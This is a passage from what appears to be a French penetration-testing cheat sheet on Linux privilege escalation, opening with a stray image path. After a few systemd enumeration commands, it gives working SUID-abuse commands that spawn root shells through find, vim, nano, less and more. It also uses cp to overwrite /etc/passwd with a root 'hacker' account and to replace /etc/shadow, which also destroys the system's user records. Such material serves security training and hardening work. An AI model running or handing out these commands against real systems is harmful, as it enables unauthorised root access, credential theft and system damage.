 #### **Tâches systemd**
```bash
# Timers systemd
systemctl list-timers
systemctl list-units --type=timer

# Services avec user spécifique
systemctl --user list-units
```

## 🎯 Techniques d'Escalade

### **1. Exploitation de binaires SUID/SGID**

#### **Méthode find**
```bash
# Si /usr/bin/find est SUID root
find . -exec /bin/sh \; -quit

# Ou version plus discrète
find . -name "anything" -exec /bin/bash -i \;
```

#### **Méthode vim/nano**
```bash
# Si /usr/bin/vim est SUID root
vim
:!/bin/sh

# Si /usr/bin/nano est SUID root
nano
Ctrl+R Ctrl+X
reset; sh 1>&0 2>&0
```

#### **Méthode less/more**
```bash
# Si /usr/bin/less est SUID root
less /etc/passwd
!/bin/sh

# Si /usr/bin/more est SUID root  
more /etc/passwd
!/bin/sh
```

#### **Méthode cp (copie stratégique)**
```bash
# Si /bin/cp est SUID root
# Créer un utilisateur root alternatif
echo 'hacker:$6$salt$hash:0:0:root:/root:/bin/bash' > /tmp/newuser
cp /tmp/newuser /etc/passwd

# Ou sauvegarder/modifier des fichiers sensibles
cp /etc/shadow /tmp/shadow.backup
cp /tmp/modified_shadow /etc/shadow
```
